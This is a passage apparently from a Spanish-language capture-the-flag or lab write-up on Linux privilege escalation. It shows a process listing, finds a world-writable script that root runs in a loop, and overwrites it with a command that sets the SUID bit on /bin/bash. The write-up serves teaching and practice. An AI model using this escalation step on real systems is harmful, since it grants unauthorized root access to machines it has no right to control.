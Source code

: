 ```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1 28.9  0.0   2800  2048 ?        Ss   19:56  20:24 /bin/sh -c service ssh start && service apache2 start && service tomcat start && service mysql start && while true; d
root          15  0.0  0.0  12020  4104 ?        Ss   19:56   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          33  0.1  0.2 203852 22448 ?        Ss   19:56   0:07 /usr/sbin/apache2 -k start
www-data      38  0.0  0.2 204776 21580 ?        S    19:56   0:01 /usr/sbin/apache2 -k start
www-data      39  0.0  0.1 204644 17740 ?        S    19:56   0:01 /usr/sbin/apache2 -k start
www-data      40  0.0  0.1 204644 16972 ?        S    19:56   0:01 /usr/sbin/apache2 -k start
www-data      41  0.0  0.1 204652 17228 ?        S    19:56   0:01 /usr/sbin/apache2 -k start
www-data      42  0.0  0.1 204644 16972 ?        S    19:56   0:01 /usr/sbin/apache2 -k start
tomcat        59  1.3  2.8 7684132 281484 ?      Sl   19:56   0:58 /usr/bin/java -Djava.util.logging.config.file=/opt/tomcat/conf/logging.properties -Djava.util.logging.manager=org.apa
mysql        108  0.0  0.0   2800  1792 ?        S    19:56   0:00 /bin/sh /usr/bin/mysqld_safe
mysql        259  3.8  4.3 2674020 434528 ?      Sl   19:56   2:44 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --log-error=/var/log/mysq
www-data   17278  0.0  0.1 204644 17228 ?        S    19:57   0:02 /usr/sbin/apache2 -k start
www-data  523348  0.0  0.1 204636 16844 ?        S    20:12   0:00 /usr/sbin/apache2 -k start
root     1425438  0.0  0.0  14444  7592 ?        Ss   20:38   0:00 sshd: rosa [priv]
rosa     1431710  0.0  0.0  14852  6440 ?        S    20:38   0:00 sshd: rosa@pts/0
rosa     1431756  0.0  0.0   5016  3840 pts/0    Ss+  20:38   0:00 -bash
root     2007627  0.0  0.0  14444  7500 ?        Ss   20:55   0:00 sshd: mario [priv]
mario    2008261  0.2  0.0  14704  6440 ?        S    20:55   0:01 sshd: mario@pts/2
mario    2008307  0.0  0.0   5016  3968 pts/2    Ss   20:55   0:00 -bash
root     2367378  0.1  0.0   6744  4664 pts/2    S    21:06   0:00 su alice
alice    2367871  0.6  0.0   5016  3968 pts/2    S    21:06   0:00 bash
alice    2373823  0.0  0.0   9632  4864 pts/2    R+   21:07   0:00 ps -aux
```

Vemos que se esta ejecutando en blucle por `root` un archivo llamado `boss` en la carpeta `/opt/alice` y si vamos a esa direccion y vemos que permisos tiene ese archivo...

```shell
cd /opt/alice
ls -la boss
```

Info:

```
-rwxrwxrwx 1 root root 95 Aug 21 15:37 boss
```

Vemos que podemos escribir en el, por lo que haremos lo siguiente.

```shell
nano boss

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```
